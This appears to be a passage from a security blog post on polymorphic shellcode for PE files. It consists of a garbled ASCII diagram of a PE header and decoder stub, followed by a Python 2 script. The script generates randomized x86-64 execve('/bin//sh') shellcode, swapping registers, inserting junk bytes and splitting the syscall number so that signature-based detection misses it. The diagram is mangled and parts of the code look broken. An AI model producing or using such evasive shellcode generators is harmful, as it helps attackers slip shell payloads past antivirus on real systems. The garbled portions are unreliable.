 |      Decode        | Shellcode Encoded  |             |------------------------------------------------------------------------------------------------------|
|=============|=================|        4   |                                                                                                                               |
             PE File polymorphic                              V                                                                                                                               |
======================               ==================           ==================        ====================              |
|  PE Header (entry point)  |                |   Original Code      |               |           Decode          |         |       encoded Códe       |                |
======================               ==================           ==================        ====================               |
            1   |                                                                                                            ^             |                              ^               3                |
                |---------------------------------------------------------------------------------------|            V                              |                |--------------|
                                                                                                                                       2   | -----------------------|
</pre>
{% highlight python %}
import sys
import random
import os
import re

def gen_rand(size):
    return str(os.urandom(size))


def get_xor():
    instruction = ["rax", "rbx", "rcx", "rdx", "rsi"]
    xoring = {}
    pushing = {}
    cleanup = ["\x48\x89\xe6\x48\x31\xc0", "\x48\x31\xc0\x48\x89\xe6"]
    xoring["rax"] = "\x48\x31\xc0"
    xoring["rbx"] = "\x48\x31\xdb"
    xoring["rcx"] = "\x48\x31\xc9"
    xoring["rdx"] = "\x48\x31\xd2"
    xoring["rsi"] = "\x48\x31\xf6"
    pushing["rax"] = "\x50"
    pushing["rbx"] = "\x53"
    pushing["rcx"] = "\x51"
    pushing["rdx"] = "\x52"
    pushing["rsi"] = "\x56"

    current = instruction[random.randint(0, 4)]
    return [xoring[current], pushing[current], cleanup[random.randint(0, 1)]]
    

def get_shell():
    shell = ["\x2f\x62\x69\x6e\x2f\x2f\x73\x68", "\x2f\x2f\x62\x69\x6e\x2f\x73\x68"]
    return shell[random.randint(0, 1)]

shellcode = "\xeb\x01[RAND1]\x68[RAND2][XOR][PUSH]\x48\xbb[SHELL]\x53\x48\x89\xe7[PUSH]\x48\x89\xe2\x57[CLEANUP]\x04[COUNT1]\x68[RAND3]\x04[COUNT2]\x0f\x05[RAND4]"

shellcode = shellcode.replace("[RAND1]", str(random.randint(50, 57)).decode("hex"))
shellcode = shellcode.replace("[RAND2]", gen_rand(4))
shellcode = shellcode.replace("[RAND3]", gen_rand(4))
shellcode = shellcode.replace("[RAND4]", gen_rand(random.randint(4, 8)))
shellcode = shellcode.replace("[SHELL]", get_shell())

count = random.randint(1, 58)
shellcode = shellcode.replace("[COUNT1]", chr(count))
shellcode = shellcode.replace("[COUNT2]", chr(59 - count))

current = get_xor()
shellcode = shellcode.replace("[XOR]", current[0])
shellcode = shellcode.replace("[PUSH]", current[1])
shellcode = shellcode.replace("[CLEANUP]", current[2])

print "\\x" + "\\x".join(re.findall("..", shellcode.encode("hex")))